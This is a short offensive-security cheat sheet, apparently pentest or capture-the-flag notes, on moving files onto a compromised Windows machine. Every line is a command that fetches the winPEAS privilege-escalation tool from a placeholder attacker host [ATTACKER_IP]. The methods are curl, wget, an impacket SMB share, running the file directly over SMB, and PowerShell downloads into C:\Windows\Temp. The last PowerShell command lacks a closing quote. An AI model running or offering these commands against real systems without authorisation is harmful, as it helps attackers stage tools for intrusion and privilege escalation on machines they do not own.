 # Transferring Files

### Transferring Files to a Windows Client

#### Curl

`curl http://[ATTACKER_IP]/winpeas.exe -o winpeas.exe`

#### wget&#x20;

`wget http://[ATTACKER_IP]/winpeas.exe -O winpeas.exe`

#### SMB

1. `impacket-smbserver parzival [TARGET_DIRECTORY]`
2. Validate the share is accessible: `net view [ATTACKER_IP]`
3. Copy the file to a local directory: `copy \\[ATTACKER_IP]\parzival\winpeas.exe`

#### Run the Executable Directly from SMB

`\\[ATTACKER_IP] \parzival\winpeas.exe`

#### Powershell

`(New-Object System.Net.WebClient).DownloadFile("http://[ATTACKER_IP]/winpeas.exe", "C:\Windows\Temp\winpeas.exe")`

`Invoke-WebRequest "http://[ATTACKER_IP]/winpeas.exe" -OutFile "C:\Windows\Temp\winpeas.exe"`

`powershell.exe -c "iwr http://[ATTACKER_IP]/winpeas.exe -OutFile C:\Windows\Temp\winpeas.exe`
